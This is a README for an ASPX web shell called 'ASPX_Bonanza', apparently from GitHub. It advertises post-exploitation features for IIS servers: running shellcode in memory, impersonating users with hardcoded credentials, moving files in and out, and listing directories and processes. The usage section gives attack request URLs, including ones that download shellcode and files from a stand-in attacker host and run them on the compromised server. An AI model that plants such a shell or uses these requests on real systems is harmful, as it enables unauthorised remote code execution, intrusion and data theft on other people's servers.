 # ASPX_Bonanza

ASPX_Bonanza is a multi-featured aspx shell with a unique use case. It has a few features with capabilities such as the use of executing shellcode in memory. Also, this script logs in directly with the impersonating user credentials and doesn’t require the seImpersonate privilege for the user running IIS.

----

## Features
- Execute shellcode in memory
- Download and Upload files
- List directories
- Cat files
- List processes

## Demo
https://user-images.githubusercontent.com/87979263/165757358-2b1e54e2-8442-4302-888a-ee2dd65c9eac.mp4

## Usage
### Impersonating user
In order to impersonate the user you want, in the source code you will have to edit the `username`, `domain` & `password`.

### Download and Execute shellcode in memory
``
https://url/impersonate_bonanza.aspx?shellcodeUrl=https://attacker/shellcode.bin
``
### List directories
``
https://url/impersonate_bonanza.aspx?dir=C:\users\public
``

### Download files
``
https://url/impersonate_bonanza.aspx?FileDownload=C:\users\public\FILE
``

### Upload files
``
https://url/impersonate_bonanza.aspx?UploadSource=https://attacker/FILE&UploadDestination=C:\users\public\FILE
``

### Cat files
``
https://url/impersonate_bonanza.aspx?Cat=C:\users\public\FILE
``

### View processes
``
https://url/impersonate_bonanza.aspx?Process=1
``
